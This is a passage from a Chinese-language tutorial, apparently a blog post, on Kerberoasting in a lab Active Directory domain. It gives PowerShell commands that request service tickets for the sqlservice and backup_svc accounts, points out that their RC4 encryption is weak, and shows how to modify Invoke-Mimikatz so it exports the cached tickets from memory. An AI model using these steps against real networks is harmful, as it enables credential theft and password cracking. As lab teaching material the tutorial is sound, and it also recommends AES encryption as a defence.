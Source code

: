 4.1、申请服务票据 – PowerShell

**

通过使用 PowerShell 内置命令，我们可以申请到服务票据，但是却无法直接通过 powershell 内置命令从内存中导出它们，而必须借助外部工具才行。

以下是请求 sqlservice 帐户服务票据的命令：

    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "Juggernaut-DC/sqlservice.juggernaut.local:60111"
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740976-435688340.png)

对于 backup\_svc 帐户同样如此：

    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "JUGGERNAUT-DC/backup_svc.juggernaut.local:60112"
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740598-1798502576.png)

上面输出显示，两张票据都已成功的申请并缓存到了内存中。但为了确认这两张票据确实已被缓存在了本地，我们可以使用 klist 命令来进一步确认：

    klist
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741345-176104703.png)

Great！上图表明，这两个服务票据都已被缓存，同时还可以看出这两个票据的加密类型都是 RC4。

> RC4 是一种非常弱的加密类型，很容易被破解，建议对 Kerberos/SPN 使用 AES 加密。不过，默认情况下 RC4 是启用的，使用 setspn 时会自动分配给服务账户。

> 注：GPT 回答：在 同一硬件+同一字典 的情况下，以 RC4 作为破解模式，每秒中可以尝试破解 350000 个密码，而对于 AES 破解模式，每秒只能尝试 5000 个密码。这就是上面所说的 RC4 弱，很容易被破解的原因。

现在，服务票据已被缓存，接下来，我们需要将其从内存中导出来。

**

5、手动导出服务票据 from 内存 – 本地

**
-------------------------------

为了从内存中导出服务票据，我们需要借助 Mimikatz 之类的工具，由于 Mimikatz 版本众多，在本例中为了方便，我们将使用 PowerShell 版本的Mimikatz ：[Invoke-Mimikatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)。

#### **

5.1、导出服务票据 – Invoke-Mimikatz

**

下载 Invoke-Mimikatz.ps1 副本之后，我们可以在其底添加以下命令以实现加载即运行的效果：

    echo Invoke-Mimikatz -Command \'\"kerberos::list /export\"\' >> Invoke-Mimikatz.ps1
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741322-222373962.png)
